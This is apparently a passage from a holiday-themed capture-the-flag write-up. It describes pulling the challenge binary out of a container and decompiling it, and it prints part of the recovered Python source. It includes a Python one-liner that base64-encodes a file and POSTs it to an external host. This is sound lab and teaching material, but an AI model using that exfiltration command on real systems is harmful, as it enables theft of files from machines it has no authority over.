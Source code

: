 This script showed that there were two main processes running the challenge, `/root/check_hmac` and `/usr/bin/main`. Since `main` appeared to be what we were interacting with, I went about extracting that from the server.

Most of the easy methods were not present on the system; the container did not have `nc`, `curl`, `wget`, `scp`, or any other number of file transfer tools. It did, however, have `base64` available for encoding binaries into ASCII, and `python3` available for general scripting. Using the [GTFOBins Python file upload](https://gtfobins.github.io/gtfobins/python/#file-upload) script, I was able to extract `main` like so:

```bash
slh@slhconsole\> base64 /usr/bin/main > /tmp/main.b64
slh@slhconsole\> export URL=http://mydomain.url/
export LFILE=/tmp/main.b64
python3 -c 'import sys; from os import environ as e
if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
else: import urllib as u, urllib2 as r
r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))'
```

I then `urldecode` and `base64 -d` the file and ran `strings` to discover a handful of Python and `.pyc` file references, implying it was a `pyinstaller` compiled executable file. I used `pyinstxtractor` to extract the compiled `.pyc` files and then [PyLingual](https://pylingual.io/) to decompile `main.pyc`:

```python
import curses
import re
import time
import sys
import random
import textwrap
import cmd
import os
from signal import signal, SIGINT, SIGTSTP
SCREEN_WIDTH = 80
EASTER_EGGS = []
BOOT_STRING = '\nFirmware image loaded!\n\n'
UBOOT_STRINGS = ['U-Boot SPL 2024.08 (Dec 24 2023 - 23:59:59 +0000)', 'Preparing sleigh for takeoff...', '', '', 'U-Boot 2024.08-g1234567-jolly (Dec 25 2023 - 00:00:01 +0000)', '', 'CPU:   North Pole CandyCane v1.0, eco 5', 'Clocks: CPU: 1000MHz, DDR: 1600MHz, Bus: 400MHz, XTAL: 50MHz', "Model: Santa's Magic Access Control Board", 'DRAM:  256 MiB of Magic Memory', 'Loading Environment from SPI Flash... SF: Detected elf32magic with page size 512 Bytes, erase size 128 KiB, total 32 MiB', '*** Warning - bad CRC, using default enchanted environment', '', 'In:    elvenconsole@1e000c00', 'Out:   elvenconsole@1e000c00', 'Err:   elvenconsole@1e000c00', 'Net:   ', 'Warning: eth@1e100000 (eth0) using random MAC address - 5e:69:c8:f8:cf:5b', 'eth0: eth@1e100000', 'Hit any key to stop autoboot:  0 ', 'Reindeer_PCIE_SET: gpio[19]=1', 'Using eth@1e100000 device', 'TFTP from server 192.168.54.25; our IP address is 192.168.54.5', "Filename 'magic_firmware.bin'.", 'Load address: 0x80010000', 'Loading: *', 'North Pole Retry count exceeded; starting again']

class BootloaderCmd(cmd.Cmd):
    prompt = '\n=> '
    magic_count = 0
    undoc_header = None
    ipaddr = '192.168.54.1'
    netmask = '255.255.255.0'
    serverip = '192.168.54.10'
    bootfile = 'C0A80101.img'
    doc_header = 'Commands (type help <topic>):'

    def print_topics(self, header, cmds, cmdlen, maxcol):
        """Override the print_topics method to customize command listing"""
        if header is not None and cmds:
            self.stdout.write('%s\n' % str(header))
            if self.ruler:
                self.stdout.write('%s\n' % str(self.ruler * len(header)))
```